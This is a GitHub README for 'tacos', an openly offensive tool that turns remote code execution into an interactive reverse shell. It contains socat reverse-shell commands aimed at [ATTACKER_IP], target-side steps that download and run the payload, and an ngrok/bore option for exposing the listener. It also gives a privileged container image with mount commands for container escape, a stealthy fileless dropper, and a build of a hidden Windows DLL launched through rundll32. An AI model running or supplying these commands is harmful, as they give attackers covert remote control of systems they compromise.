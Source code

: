 # tacos 🌮 
<sup>(reverse `socat`)</sup>

<div align=center>
<img src=https://github.com/ariary/tacos/blob/main/logo.png width=250>

Spawn a pty in your reverse shell to <strong>automaticaly</strong> make it <strong>interactive</strong> for socat listener.

<strong> Fast interactive reverse shell set-up [ 🐳 (container) ](#with-docker-recommended)</strong>

<sup><code><b> All credit goes to <a href=https://github.com/laluka/pty4all>laluka</a> idea </b></code></sup>
</div>



Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP:PORT],verify=0
```

**Why ?**
* transform RCE to interactive reverse shell with almost no prerequisite (only `curl`)
* cross-platform *(windows support is OK but not yet interactive. It is recommended to use non-docker solution for it)*
* tired of hitting ^C and loosing your shell?
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate


## Usage

« I quickly want an interactive reverse shell», take a wrap! 🥙
```shell
# On attacker machine
tmux
wrap --lhost [ATTACKER_IP] #launch socat listener + output command to run on target

# On target
# paste command outputted by wrap: it will download tacos, and launch it to obtain the interactive revshell
```

<details><summary><h4>🎁 Bonus n°1: expose listener to the world wide web</h4></summary>
Useful if target can't directly reach the attacker machine, but has internet access
<br> On attacker machine, install <code>ngrok</code> or <code>bore</code> and launch your listener:
<pre><code>wrap -n
</code></pre>

<i><b>N.B:</b></i> ngrok is more stable than bore for now
</details>

### With docker (recommended)

Source aliases *(for simplicity)*:
```shell
alias tacos.container='docker run --net host --rm -it ariary/tacos'
```

Launch multi-handler listener:
```shell
tacos.container [LISTENING_ADDR] [LISTENING_PORT] # [OPTIONAL_TACOS_ARS]
```

***Notes about `tacos` container security:***
> From a networking point of view, this is the same level of isolation as if the processes were running directly on the host and not in a container. However, in all other ways, such as storage, process namespace, and user namespace, the process is isolated from the host.

<details>
<summary><h4>🎁 Bonus n°2: <code>tacos</code> reverse shell image</h4></summary>
Useful if target is running docker, kubernetes, etc ...
<br> On attacker machine, launch your <code>tacos</code> listener as usual
<br> On target:
<pre><code>
docker run --privileged --rm -it ariary/tacos-reverse [TACOS_LISTENER_IP]:[TACOS_LISTENER_PORT]
</code></pre>
<blockquote>💡: <code>--privileged</code> mode is not mandatory. It is used to allow container escaping with:
<pre><code>
fdisk -l
mkdir /mnt/hostfs
mount /dev/sda1 /mnt/hostfs
</code></pre>
</blockquote>
<br>
<blockquote>💡: If you only have writing access to a manifest deploying containers. Use <code>ariary/tacos-reverse</code> image with appropriate arguments
</blockquote>
</details>


## Install
### tacos
#### Docker
```shell
docker pull ariary/tacos
```

#### Release
```shell
curl -lO -L -s https://github.com/ariary/tacos/releases/latest/download/tacos && chmod +x tacos
```

#### From git
need `go`:
```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make before.build
make build.tacos          # or make build.tacos.windows
```

### wrap
need `nim`:

```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make build.wrap
mkdir -p $HOME/.tacos
mv light-pty4all/socat-forker-windows.sh.tpl $HOME/.tacos
mv light-pty4all/socat-forker.sh.tpl $HOME/.tacos
```

## Alternatives

Alternatively, if target does not have `socat`:
**Host** a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and **download + execute it** using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
static-get socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_IP]:8080/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:[SOCAT_LISTENING_PORT],verify=0
```

### Use dll instead of `.exe`
```shell
# On attacker machine:
# modify ./cmd/tacosdll/tacosdll.go with the according IP:PORT
$ GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o tacos.dll ./cmd/tacosdll/tacosdll.go

# On remote:
> rundll32.exe ./tacos.dll,Tacos
```
